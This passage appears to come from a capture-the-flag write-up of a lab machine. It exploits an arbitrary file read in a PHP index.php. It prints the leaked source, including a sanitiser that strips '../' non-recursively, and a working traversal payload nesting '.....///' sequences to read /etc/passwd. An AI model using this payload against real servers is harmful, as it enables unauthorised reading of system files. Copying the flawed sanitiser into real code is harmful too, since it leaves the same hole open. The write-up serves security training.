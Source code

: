 ### Arbitrary File Read Vulnerability - `index.php`

`/index.php` appears to leverage the `page` query parameter to determine which file to render to the user. Exploit this vulnerability to read `index.php`'s source:

```http
GET /index.php?page=index.php HTTP/1.1
Host: 10.129.160.64
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

```http
HTTP/1.1 200 OK
Server: nginx
Date: Tue, 05 Apr 2022 18:27:34 GMT
Content-Type: text/html; charset=UTF-8
Connection: close
Content-Length: 348

<?php
function sanitize_input($param) {
    $param1 = str_replace("../","",$param);
    $param2 = str_replace("./","",$param1);
    return $param2;
}

$page = $_GET['page'];
if (isset($page) && preg_match("/^[a-z]/", $page)) {
    $page = sanitize_input($page);
} else {
    header('Location: /index.php?page=default.html');
}

readfile($page);
?>
```

It returns the contents of the file at the query parameter `page` as long as it begins with a lowercase letter. It also removes all `./` and `../`, *unrecursively*. This restriction can be bypassed by beginning the path with one of the directories in the web root (i.e., `js/`) and nesting the traversal sequences by replacing all `../`'s with `.....///`'s.

```http
GET /index.php?page=js/.....///.....///.....///.....///etc/passwd HTTP/1.1
Host: 10.129.160.64
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
